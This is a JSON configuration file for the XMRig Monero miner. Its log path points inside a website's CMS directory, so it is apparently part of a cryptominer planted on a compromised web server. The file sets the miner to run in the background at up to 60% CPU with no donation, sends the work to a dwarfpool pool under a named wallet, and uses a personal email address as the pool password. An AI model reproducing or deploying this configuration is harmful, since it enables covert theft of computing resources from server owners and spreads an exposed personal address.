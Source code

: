 {
    "algo": "cryptonight",
    "background": true,
    "colors": true,
    "retries": 5,
    "retry-pause": 5,
    "donate-level": 0,
    "syslog": false,
    "log-file": "/phpstudy/www/www.dingfengtouzi.com/finecms/system/xmr/xm/log.txt",
    "print-time": 60,
    "av": 0,
    "safe": false,
    "max-cpu-usage": 60,
    "cpu-priority": null,
    "threads": null,
    "pools": [
        {
            "url": "xmr-eu.dwarfpool.com:8005",
            "user": "48jNbzBLAeej3gnEovyFZrEhMg8fkGieTP64Vef8LcnnR7Kg64aswsMP2uJLJG8nBScA7Cqc4ccb1hvGSbMzSwz7MzuMZmZ.room",
            "pass": "s320372008@gmail.com",
            "keepalive": true,
            "nicehash": false
        }
    ],
    "api": {
        "port": 0,
        "access-token": null,
        "worker-id": null
    }
}
